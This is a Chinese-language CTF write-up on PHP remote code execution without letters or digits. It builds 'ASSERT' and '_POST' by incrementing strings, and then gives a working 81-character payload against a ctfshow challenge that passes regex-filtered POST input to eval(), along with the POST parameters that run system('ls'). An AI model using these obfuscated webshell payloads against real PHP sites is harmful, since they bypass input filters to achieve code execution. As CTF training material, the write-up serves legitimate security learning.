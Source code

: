 有如下
```
"A"++ ==> "B"
"B"++ ==> "C"
```
也就是说，如果我们能够得到"A"，那么我们就能通过自增自减，得到所有的字母。那么问题就转化为怎么得到一个字符"A"。
在PHP中如果强制连接数组和字符串的话，数组将被转换成字符串，其值为"Array"。
再取这个字符串的第一个字母，就可以获得"A"。
```
<?php
$a = ''.[];
var_dump($a);
```
组合
```
<?php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
$_ = $$____;   //$_=$_POST
$___($_[_]);   //ASSERT($POST[_])
```



^
## **如果允许0，可以更短**
还有1/_==INF，下划线也可快速构造NAN，如

```bash
	$a=_/_._;   // NAN_
```

如此，有`'N'==$a[0]`
N 跟 O 很近，构造 _POST，通过二次引用即 $\_POST[0](https://www.cnblogs.com/viistar/p/$_POST%5B_%5D); 可执行任意php代码。\
注意$a++; ++$a;的区别，建议先加再用。\
能用的短变量有`$_` 、`$__` 、`$_0` 三个.后面才知道还能用不可见字符替换php变量名称`$%ff`，这样就更短了。\
题目

```php
	<?php

	//本题灵感来自研究Y4tacker佬在吃瓜杯投稿的shellme时想到的姿势，太棒啦~。

	error_reporting(0);

	highlight_file(__FILE__);

	 

	if (isset($_POST['ctf_show'])) {

	    $ctfshow = $_POST['ctf_show'];

	    if (is_string($ctfshow) && strlen($ctfshow) <= 84) {

	        if (!preg_match("/[a-zA-Z1-9!'@#%^&*:{}\-<\?>\"|`~\\\\]/",$ctfshow)){

	            eval($ctfshow);

	        }else{

	            echo("Are you hacking me AGAIN?");

	        }

	    }else{

	        phpinfo();

	    }

	}
```

我的解法81位

```php
	<?php 

	$a=(_/_._)[0];// NAN 取 N

	$aa=++$a;// O

	$a0=++$a.$aa;// PO

	++$a/++$a;

	$a=_.$a0.=++$a.++$a;// _.POST

	$$a[0]($$a[_]);

	//var_dump($a);
```

去掉注释，php开头，替换a为下划线得

```powershell
	$_=(_/_._)[0];$__=++$_;$_0=++$_.$__;++$_/++$_;$_=_.$_0.=++$_.++$_;$$_[0]($$_[_]);
```

接下来url编码，post传`ctf_show=xxxxx&0=system&_=ls`，搞定！

ps: url编码的三种方法\
1.python 的from urllib import quote\
2.php的 echo urlencode\
3.burp suite 的decode 标签\
最短rce5长度72，以后通杀无字母数字！

